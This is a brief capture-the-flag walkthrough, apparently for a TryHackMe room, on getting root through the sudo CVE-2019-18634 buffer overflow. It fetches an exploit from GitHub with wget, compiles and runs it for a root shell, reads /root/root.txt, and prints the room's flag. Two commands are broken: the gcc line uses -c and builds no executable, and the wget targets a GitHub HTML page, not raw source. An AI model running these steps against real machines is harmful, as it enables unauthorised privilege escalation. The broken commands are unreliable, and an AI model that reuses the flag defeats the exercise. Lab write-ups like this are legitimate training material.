 IP address 10.10.175.132

connected with machine  with ssh and port 4444

then run 
wget https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c

get the exploitation code for excute 

now run gcc -c <output file> <source-file>  (gcc -c exploit exploit.c)

aftter that run ./exploit

#1 Use the pre-compiled exploit in the VM to get a root shell.
Ans. answer not applied 

#2 What's the flag in /root/root.txt?
Ans. run cat /root/root.txt
 flag THM{buff3r_0v3rfl0w_rul3s}


